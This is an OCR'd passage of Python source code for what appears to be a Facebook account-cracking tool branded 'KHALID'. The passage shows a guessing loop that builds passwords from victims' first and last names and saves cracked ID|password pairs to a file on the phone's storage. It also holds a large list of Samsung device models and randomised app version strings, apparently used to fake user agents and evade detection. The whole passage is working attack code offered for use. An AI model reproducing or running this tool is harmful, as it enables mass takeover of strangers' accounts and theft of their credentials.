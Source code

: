                                 oks.append(ids)
                                break
                        elif 'checkpoint' in KHALID:
                                if 'y' in pcp:
                                        print('\r\r\x1b[1;92m[\033[0;91mKHALID-CP\033[0;92m] \033[0;90m'+ids+' \033[0;97m| \033[0;90m'+pas+'\033[1;97m')
                                        open('/sdcard/KHALID-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
                loop+=1
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        except Exception as e:
                pass
xxxxx=("GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
#_________[ METHOD 2 ]______>>  
def api(ids,names,passlist):
                try:
                        global ok,loop,proxies
                        sys.stdout.write('\r\r\033[1;37m[\x1b[38;5;208mKHALID-M2\x1b[1;97m] \x1b[1;97m[\x1b[1;93m%s\x1b[1;97m] \033[1;37m[\x1b[1;92mOK ACCOUNTS\x1b[1;91m:\x1b[1;92m %s\x1b[1;97m] \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))